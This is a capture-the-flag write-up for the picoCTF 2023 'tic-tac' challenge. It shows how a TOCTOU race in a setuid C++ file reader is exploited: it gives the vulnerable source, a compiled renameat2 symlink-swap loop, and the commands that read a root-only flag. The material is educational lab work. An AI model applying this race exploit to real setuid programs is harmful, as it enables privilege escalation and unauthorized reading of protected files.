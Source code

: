 # tic-tac

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Exploitation, linux, bash, toctou
Author: JUNIAS BONOU

Description:
Someone created a program to read text files; we think the program reads files with 
root privileges but apparently it only accepts to read files that are owned by the 
user running it.

ssh to saturn.picoctf.net:61030, and run the binary named "txtreader" once connected. 
Login as ctf-player with the password, 8a707622
 
Hints:
(None)
```
Challenge link: [https://play.picoctf.org/practice/challenge/380](https://play.picoctf.org/practice/challenge/380)

## Solution

The challenge title and tags tells us that we should expect a [time-of-check to time-of-use (TOC/TOU)](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) race condition.

### Connect to the server

We start by connecting to the server with SSH
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/tic-tac]
└─$ ssh -p 61030 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61030 ([13.59.203.175]:61030)' can't be established.
ED25519 key fingerprint is SHA256:e8pSZxXYptxqGFMvizVN3x1vGmmhC4iDlWjx8/Js5jY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61030' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

### Investigate the scenario

Next, we investigate the available files
```bash
ctf-player@pico-chall$ ls -la
total 32
drwxr-xr-x 1 ctf-player ctf-player    20 Oct  1 14:15 .
drwxr-xr-x 1 root       root          24 Aug  4 21:50 ..
drwx------ 2 ctf-player ctf-player    34 Oct  1 14:15 .cache
-rw-r--r-- 1 root       root          67 Aug  4 21:52 .profile
-rw------- 1 root       root          32 Aug  4 21:52 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4 21:52 txtreader
ctf-player@pico-chall$ file txtreader 
txtreader: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5f31c8b2980e334387115245d52f922371573666, for GNU/Linux 3.2.0, not stripped
```
We have the `txtreader` program with the [Setuid](https://en.wikipedia.org/wiki/Setuid) bit set.  
And a `flag.txt` file only readable by `root` as well as the source code named `src.cpp`.

### Analyse the C++ file

Now we analyse the C++ source
```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
The race condition is between the time-of-check, the `if (stat(filename.c_str(), &statbuf) == -1) {` line,  
and the time-of-use, the `if (file.is_open()) {` line.

This [LiveOverflow video](https://www.youtube.com/watch?v=5g137gsB9Wk) does a good job of describing both the problem and the solution.

### Make a work area

Since the home directory isn't writable to us we need to create a work area
```bash
ctf-player@pico-chall$ TMP_DIR=$(mktemp -d)
ctf-player@pico-chall$ echo $TMP_DIR
/tmp/tmp.ejxpXrVQv6
ctf-player@pico-chall$ chmod 777 $TMP_DIR
ctf-player@pico-chall$ cd $TMP_DIR
```

### Compile the exploit

Then we create the [rename.c exploit](https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c) described in the video above.
```bash
ctf-player@pico-chall$ cat << EOF > rename.c
> #define _GNU_SOURCE
> #include <stdio.h>
> #include <fcntl.h>
> #include <stdio.h>
> #include <unistd.h>
> #include <sys/syscall.h>
> #include <linux/fs.h>
> 
> int main(int argc, char *argv[]) {
>   while (1) {
>     syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
>   }
>   return 0;
> }
> EOF
ctf-player@pico-chall$ 
```
Neither `vi` nor `vim` seemed to be installed so I used a [here document](https://tldp.org/LDP/abs/html/here-docs.html) instead.

Now we compile
```bash
ctf-player@pico-chall$ gcc -o rename rename.c 
ctf-player@pico-chall$ file rename 
rename: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=96a47ccc6a617534efdf3fb5e09207cfcb9dd0e9, for GNU/Linux 3.2.0, not stripped
```

### Prepare the files

The exploit takes two files. One file should be readable by you and the other should be a [symbolic link](https://en.wikipedia.org/wiki/Symbolic_link) pointing to the file we want to read.
```bash
ctf-player@pico-chall$ ln -s ~/flag.txt
ctf-player@pico-chall$ ls -l flag.txt 
lrwxrwxrwx 1 ctf-player ctf-player 25 Oct  1 14:24 flag.txt -> /home/ctf-player/flag.txt
ctf-player@pico-chall$ touch myfile.txt
```

### Run the exploit

Next we run the exploit in the background
```bash
ctf-player@pico-chall$ ./rename flag.txt myfile.txt &
[1] 53
```

### Get the flag

Finally, we run the `txtreader` program and ask for `myfile.txt`
```bash
ctf-player@pico-chall$ ./txtreader $TMP_DIR/myfile.txt
picoCTF{<REDACTED>}
```

And we get the flag.

For additional information, please see the references below.

## References

- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [ln - Linux manual page](https://man7.org/linux/man-pages/man1/ln.1.html)
- [mktemp - Linux manual page](https://man7.org/linux/man-pages/man1/mktemp.1.html)
- [Here documents - Advanced Bash-Scripting Guide](https://tldp.org/LDP/abs/html/here-docs.html)
- [Wikipedia - Setuid](https://en.wikipedia.org/wiki/Setuid)
- [Wikipedia - Symbolic link](https://en.wikipedia.org/wiki/Symbolic_link)
- [Wikipedia - Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
